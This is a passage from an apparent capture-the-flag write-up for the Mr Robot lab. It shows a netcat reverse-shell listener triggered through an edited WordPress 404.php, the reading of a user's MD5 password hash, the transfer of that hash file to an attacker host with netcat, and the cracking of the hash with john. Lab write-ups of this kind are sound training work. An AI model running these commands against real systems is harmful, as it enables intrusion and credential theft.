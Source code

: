 1. setup a listener `nc -lvnp 9001`
2. execute the edited php file -> http://<TARGETIP>/wp-includes/themes/TwentyThirteen/404.php

## User-flag
We are now logged in as "daemon". The user-flag will lie within someones home-directory. There is only one user, called **robot**, having a directory in */home*, but as current user, we cannot access the flag, due to lack of permissions. Apparently, to our favor, robot kept his password as md5-hash.
```
daemon@linux:/home/robot$ ls -lisa
ls -lisa
total 16
130326 4 drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
 22175 4 drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
136108 4 -r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
136109 4 -rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ 
```
```
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
```

### Cracking the password for user **robot**

1. get file on the attacker-machine

```
kali@kali:~/CTFs/mrrobotctf/robot_user$ nc -lvnp 5555 > pw.hash  
```
```
daemon@linux:/home/robot$ nc -w 3 <ATTACKERIP> 5555 < password.raw-md5
```

2. cracking using `john`

> Remove "robot" from the hash-file, before trying to crack

```
kali@kali:~/CTFs/mrrobotctf/robot_user$ john -wordlist:/usr/share/wordlists/rockyou.txt pw.hash --format=Raw-MD5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2024-05-26 07:27) 16.66g/s 678400p/s 678400c/s 678400C/s bonjour1..teletubbies
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                        
kali@kali:~/CTFs/mrrobotctf/robot_user$ 
```
